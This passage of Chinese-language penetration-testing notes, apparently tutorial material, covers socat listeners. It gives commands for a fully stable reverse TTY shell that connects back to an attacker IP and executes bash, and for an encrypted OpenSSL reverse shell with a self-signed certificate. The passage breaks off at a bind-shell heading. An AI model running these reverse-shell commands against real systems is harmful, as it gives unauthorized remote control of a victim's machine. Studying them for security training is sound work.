 #### 3.监听语法


```Bash
#在攻击机上执行：
socat TCP:<span style="color: #C7D5F6"><TARGET-IP>:<TARGET-PORT></span> -
```

#### 4.<span style="color: #FBBFBC">建立完全稳定的 Linux tty 反向 shell（√）</span>


```Bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0    #攻击机上执行
#必须使用非常特定的 SoCAT 命令来激活此特殊侦听器，默认情况下，大多数机器没有安装 socat
#但是，可以上传预编译的 socat 二进制文件，然后可以正常执行
socat TCP:<attacker-ip>:<attacker-port>EXEC:"bash -li",pty,stderr,sigint,setsid,sane
#目标上执行1
```

* Pty：在目标上分配一个伪终端，稳定过程的一部分
* stderr：确保任何错误消息都显示在 shell 中
* sigint：将任何 Ctrl+C 命令传递到子进程中，允许我们在 shell 内终止命令
* setsid：在新会话中创建进程
* sane：稳定终端，试图正常化
* EXEC：“bash -li”创建交互式 bash 会话
![](assets/YD2fb5wAboQN7DxXQ58c2EWsn7c.png)

注意：如果 socat shell 无法正常工作，可以在命令中添加`-d -d`来增加详细程度

### 创建加密shell

使用加密shell时，`TCP`命令应该替换为`OPENSSL`


```Bash
#1.生成一个证书
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
#2.将两个创建的文件合并为一个 .pem 文件:
cat shell.key shell.crt > shell.pem
#3.设置反向shell监听器
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
#4.连接回去
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

`verify=0` 告诉连接不要试图验证我们的证书是否已经被认可的权威机构正确签名。

对于绑定shell

